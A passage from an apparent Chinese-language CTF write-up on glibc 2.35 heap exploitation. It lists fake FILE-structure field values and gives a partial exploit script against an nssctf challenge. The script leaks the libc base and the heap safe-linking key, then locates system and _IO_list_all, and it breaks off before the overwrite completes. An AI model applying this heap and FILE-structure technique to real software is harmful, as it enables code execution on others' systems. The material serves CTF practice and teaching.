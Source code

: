 所以可以像下面这样构造：

- fp->_flags = 0
- fp->_IO_buf_base = 0
- fp->_IO_buf_end = (bin_sh_addr - 100) / 2
- fp->_IO_write_ptr = 0xffffffff
- fp->_IO_write_base = 0
- fp->_mode = 0

```
from PwnModules import *

io, elf = get_utils('./heap_2.35', True, 'node3.anna.nssctf.cn', 28755)
init_env(1, 'debug')
libc = ELF('/home/kaguya/PwnExp/Libc/NSS/2.35-3.7/libc.so.6')


def add(idx, size):
    io.sendlineafter(b'>>', b'1')
    io.sendlineafter(b'idx? ', str(idx))
    io.sendlineafter(b'size? ', str(size))


def free(idx):
    io.sendlineafter(b'>>', b'2')
    io.sendlineafter(b'idx? ', str(idx))


def show(idx):
    io.sendlineafter(b'>>', b'3')
    io.sendlineafter(b'idx? ', str(idx))


def edit(idx, content):
    io.sendlineafter(b'>>', b'4')
    io.sendlineafter(b'idx? ', str(idx))
    io.sendlineafter(b'content : ', content)


add(0, 0x480)
add(9, 0x10)
free(0)
show(0)

libc_base = leak_addr(2, io) - 0x21ace0
system = libc_base + libc.sym['system']

show_addr('libc_base', libc_base)

fake_io_addr = libc_base + libc.sym['_IO_2_1_stderr_']
io_list_all = libc_base + libc.sym['_IO_list_all']
show_addr('fake_io_addr', fake_io_addr)

add(6, 0x480)

free(9)
show(9)

io.recvuntil(b'content : ')
heap_base = u64(io.recv(5).ljust(8, b'\x00')) << 12
heap_key = heap_base >> 12
print(hex(heap_key))

add(10, 0x10)

```